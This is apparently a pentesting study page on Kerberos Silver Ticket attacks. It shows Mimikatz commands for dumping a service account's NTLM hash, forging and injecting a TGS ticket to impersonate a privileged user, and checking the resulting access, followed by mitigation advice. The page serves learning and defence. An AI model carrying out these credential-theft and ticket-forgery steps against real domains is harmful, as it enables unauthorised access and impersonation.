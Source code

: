 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Silver Tickets

## **Concept**

**Silver Tickets** are forged [Kerberos](../ad-authentication.md#kerberos) **TGS** tickets created using the **NTLM hash of a service account**, such as `iis_service`. These tickets can **impersonate any user** (e.g., `jeffadmin`) with **arbitrary group memberships** and are **accepted by services like HTTP or SMB** **without contacting the DC** — making this an **offline attack**.

This works because service tickets are encrypted using the service account’s key (NTLM hash). If an attacker possesses that hash, they can craft a ticket that looks legitimate to the service, even though it was never issued by the DC.

Silver Tickets are most effective when **PAC (Privilege Attribute Certificate) validation** is **not enforced**, which is common. However, post-October 2022 patches introduced `PAC_REQUESTOR` **validation**, which adds constraints when forging tickets for **non-existent** users.

## **Attack**

{% tabs %}
{% tab title="1. Hash Extraction" %}
Extract the service account hash from a system where the service account (e.g., `iis_service`) is logged in.

```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
yamlCopyEditUser Name : iis_service
NTLM      : 4d28cf5252d39971419580a51484ca09
SID       : S-1-5-21-1987370270-658905905-1781884369-1109
...
```
{% endtab %}

{% tab title="2. Domain SID" %}
Get the domain Securidy Identifier (SID).

```powershell
> whoami /user
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```
{% endtab %}

{% tab title="3. Forge & Inject" %}
Forge and inject the Silver Ticket on the target SPN, e.g. `HTTP/web04.corp.com`.

{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
Confirm the ticket injection.

```powershell
> klist
Client: jeffadmin @ corp.com
Server: http/web04.corp.com @ corp.com
```

Verify access to the target service.

```powershell
> iwr -UseDefaultCredentials http://web04
StatusCode        : 200
StatusDescription : OK
```
{% endtab %}
{% endtabs %}

> _A common mistake regarding this attack is forging a ticket for a user that doesn’t exist in AD or using an incorrect SPN format — **remember, SPNs like****&#x20;****`HTTP/web04.corp.com`****&#x20;****follow a Kerberos naming convention, not a URL format (e.g.,****&#x20;****`http://web04.corp.com`****)**, and are case-sensitive in some configurations._

## **Mitigation**

* Enforce **PAC validation** on high-value services.  If enforced, services verify user info with the DC. Rarely enabled but shuts down Silver Ticket abuse.
* Limit and monitor **local admin access** on application servers.
* Enable **LSA Protection** to block credential theft via Mimikatz.
* Monitor for:
  * Kerberos tickets with unusually long lifetimes
  * Abnormal group memberships in TGS
  * Services accepting tickets never seen by the DC
